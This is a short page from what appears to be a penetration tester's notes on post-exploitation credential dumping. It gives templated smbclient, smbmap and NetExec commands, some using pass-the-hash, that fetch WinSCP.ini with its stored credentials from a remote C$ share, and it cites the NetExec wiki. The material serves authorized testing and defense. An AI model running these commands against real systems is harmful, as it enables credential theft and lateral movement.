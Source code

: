 # Unix Shell

## SMBClient

```
$ smbclient -U "[<domain>/]<username>%<password>" //<IP>/C$

$ smbclient -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> //<IP>/C$

smb: \> more "/Program Files (x86)/WinSCP/WinSCP.ini"
```

## Impacket

```
$
```

## SMBMap

```
$ smbmap -u "<username>" -p "< <password> | <nt_hash> >" [-d <domain>] -H <IP> --download "C$\Program Files (x86)\WinSCP\WinSCP.ini"
```

## NetExec

```
$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] --get-file "/Program Files (x86)/WinSCP/WinSCP.ini" WinSCP.ini

$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] -M winscp
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x03 - OS Credential Dumping/Windows/Host/Sensitive Files/Config Files/Network Ports/SSH/Living off the Land]]

### NetExec Wiki

- [NetExec Wiki: Dump WinSCP](https://www.netexec.wiki/smb-protocol/obtaining-credentials/dump-winscp)